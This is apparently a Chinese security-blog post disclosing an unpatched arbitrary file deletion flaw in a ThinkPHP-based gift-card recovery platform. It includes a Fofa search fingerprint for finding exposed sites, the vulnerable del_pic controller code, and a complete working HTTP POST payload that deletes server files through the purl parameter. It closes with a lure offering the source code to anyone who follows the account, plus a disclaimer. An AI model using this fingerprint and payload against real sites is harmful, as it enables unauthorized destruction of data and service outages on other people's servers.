 #  【0day】某礼品卡电子券收卡系统存在前台任意文件删除漏洞   
原创 Mstir  星悦安全   2025-03-08 13:26  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**一个先进、稳定、功能完善的回收交易平台， 通过技术对接，全面实现线上回收各类虚拟卡。销卡速度快，到账稳定。 解决浪费：直接面对用户回收 出户即可提交卡号卡密完成回收交易 解决每年上十亿礼品卡闲置的问题。 资金回流：让企业闲置、员工FULI、 亲友相赠等方式获取的礼品卡快速 变现，以达到资金回流化实现利益。 交易多样：提供线上回收、线下交易API接口等多种交易方式**  
  
****  
**1.支持PC+wap多端访问方式 2.支持多管理员总后台登录 3.支持前端用户多登录方式需要配置 4.多种礼品卡-商超-旅游卡-视频卡-餐券卡等支持 5.文章系统 6.公告系统 7.卡密回收模式 8.多种提现方式**  
  
****  
**Fofa指纹："/Application/Home/Static/css/style2.css"**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNkiadvfRdqw1j0ySq6E9rhsEMX5dkwKLYC2vCauFBibMXR1gzu3FvH02QVx996Xud5ofchNX8Txiaw/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNkiadvfRdqw1j0ySq6E9rhAZcGX7Cbu7HsFmh4Ihiadg3RGjF79QztdvpNrhPaNAKfeiauIRAGxEXQ/640?wx_fmt=webp&from=appmsg "")  
  
**框架:ThinkPHP 3.2.3**  
## 0x01 漏洞研究&复现  
  
**位于 /Application/Home/Controller/UserController.class.php 控制器内的del_pic 方法存在unlink函数，且传参均可控，导致漏洞产生.**  
  
****```
//删除图片
public function del_pic(){
  $pic_url  = I('post.');
  $purl = ".".$pic_url['purl'];
  //echo $purl;
  if (file_exists($purl)) {
    $result=unlink($purl);
    echo $result;
  }else{
    echo "不在";
  }
}

```  
  
  
**Payload:**  
  
****```
POST /Home/user/del_pic HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 15
Content-Type: application/x-www-form-urlencoded
Cookie: think_language=zh-CN; PHPSESSID=he0qhohlf53m7vu33fp7ur87mo; a27adc0b9562e4f6168d897eefdf3902_ssl=6c9cfa24-c021-4009-8595-c1301fb0373f.fF3oRbTIZ6EYJcoaSfhkOW6qziY
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36

purl=/aaa.txt

```  
  
回显为1 即为成功删除，回显 不在 则不存在该文件0x02 源码下载标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转礼品卡源码关注公众号发送 250308 获取!免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!  
